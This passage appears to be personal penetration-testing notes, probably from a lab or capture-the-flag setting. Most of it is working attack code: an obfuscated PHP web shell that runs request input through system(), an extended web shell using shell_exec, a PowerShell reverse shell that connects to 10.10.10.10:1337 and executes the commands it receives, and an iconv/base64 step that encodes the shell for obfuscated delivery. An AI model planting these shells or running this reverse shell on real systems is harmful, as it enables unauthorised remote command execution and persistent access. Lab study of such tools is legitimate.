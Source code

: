 ```php
<?php if(isset($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')])){echo base64_decode('PHByZT4=');$k06ca1b7b4ed8=($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')]);system($k06ca1b7b4ed8);echo base64_decode('PC9wcmU+');die;}?>
</body>
</html>
```

Running `hostname` on the server
![](addederrorreportingzero.png)

More improvements to my webshell
```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php error_reporting(0);?>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>

```


Alh4zr3d's obfuscate reverse shell is just this with the variables changed, save this to a .txt file alter variables where required.
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

He then base64, little endians it: convert it to UTF-16LE, which the Windows Default encoding, encodes it to base64 then removes the newline .
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```
